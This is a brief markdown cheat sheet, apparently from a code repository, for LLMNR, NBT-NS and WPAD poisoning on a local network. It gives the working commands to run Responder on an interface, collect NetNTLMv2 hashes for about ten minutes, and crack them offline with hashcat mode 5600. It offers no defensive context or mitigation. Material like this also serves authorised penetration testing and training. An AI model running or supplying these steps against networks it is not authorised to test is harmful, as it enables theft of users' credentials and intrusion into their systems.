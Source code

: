 ## LLMNR (Link-Local Multicast Name Resolution)

## NBT-NS (NetBIOS Name Server)

## WPAD (Web Proxy Auto-Discovery)

### Tools: Responder, Hashcat

## Steps:

#### 1) sudo responder -I YOUR_INTERFACE

#### 2) Leave it for a bit (average 10 minutes)

#### 3) Offline cracking with hashcat ( hashcat -m 5600 HASHFILE PASSWORDFILE --force )
